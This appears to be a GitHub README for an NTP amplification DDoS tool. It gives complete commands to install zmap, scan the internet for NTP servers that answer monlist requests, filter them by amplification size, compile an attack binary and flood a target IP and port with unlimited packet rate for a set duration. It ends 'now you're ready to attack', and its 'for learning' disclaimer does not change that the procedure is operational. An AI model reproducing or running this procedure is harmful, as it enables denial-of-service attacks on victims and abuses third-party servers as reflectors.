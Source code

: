 this is a NTP-AMP script for cyber security learning

operating system：centOS 7

prepare repositorys：Enter the command below

-----------------------------------------------
yum install gcc libcap  libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c
yum -y install zmap
--------------------------------------------------

Upload ntpchecker and ntp_123_monlist.pkt to your server
Enter the command below to start scanning agent list（it wil take a looong time so pls be patient）:

-------------------------------------------------------------------------------------------------
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
---------------------------------------------------------------------------------------------------

give ntpchecker 777 permission：

------------------------------
chmod 777 ntpchecker
-----------------------------

Operational inspection：

---------------------------------------------------------------
screen ./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1
-----------------------------------------------------------------

filter list:

---------------------------------------------------------------------------
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt
-----------------------------------------------------------------------------

Compilation and attack:

------------------------------------------------------------------------------
yum install gcc libcap libpcap libpcap-devel 
gcc -lpthread ntp.c -lpcap -o ntp 
 -----------------------------------------------------------------------------------

ATTACK:

./ntp ip port list(ntpamp.txt) thread ppslimit(-1=no limit) attacktime(second)

example: ./ntp 127.0.0.1 80 ntpamp.list 1500 -1 600
 
 ok now you're ready to attack
 
 this script is just for cyber attack learning and pls don't be evil
 
